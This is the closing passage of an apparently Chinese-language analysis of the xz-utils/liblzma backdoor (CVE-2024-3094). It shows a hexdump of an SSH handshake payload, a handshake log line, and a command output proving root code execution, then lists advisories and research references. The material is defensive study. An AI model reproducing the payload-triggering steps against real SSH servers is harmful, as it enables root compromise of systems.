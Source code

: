 ```shell
000001e0  31 d8 03 13 05 a8 a6 b6  10 bd 5d c0 80 27 fd e7  |1.........]..'..|
000001f0  9a 7a d2 53 cb 4d 1b d7  9f 1d bf 47 b9 5f a0 49  |.z.S.M.....G._.I|
00000200  8c 28 de ce 0a ff 6f 47  0c d2 34 a9 35 00 00 00  |.(....oG..4.5...|
00000210  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000220  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000230  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000240  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000250  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000260  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000270  00 00 00 00 00 00 00 00  00 00 00 10 00 00 00 07  |................|
00000280  73 73 68 2d 72 73 61 00  00 00 01 00              |ssh-rsa.....|
2024/04/30 16:57:38 ssh: handshake failed: EOF
```

```shell
$ cat /tmp/.xz
uid=0(root) gid=0(root) groups=0(root)
```

## 參考

[^1]: [oss-security - backdoor in upstream xz/liblzma leading to ssh server compromise](https://www.openwall.com/lists/oss-security/2024/03/29/4)
[^2]: [FAQ on the xz-utils backdoor (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27#design)
[^3]: [landlock(7) - Linux manual page](https://man7.org/linux/man-pages/man7/landlock.7.html)
[^4]: [CheckCSourceCompiles — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckCSourceCompiles.html)
[^5]: [CheckIncludeFile — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckIncludeFile.html)
[^6]: [research!rsc: The xz attack shell script](https://research.swtch.com/xz-script)
[^7]: [amlweems/xzbot](https://github.com/amlweems/xzbot)
[^8]: [XZ Utils backdoor](https://tukaani.org/xz-backdoor/)
[^9]: [xz-utils backdoor situation](https://gist.github.com/martenson/398bdb7a928069cf67606c9ba919a7ce)
[^10]: [xz-utils backdoor situation (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27)
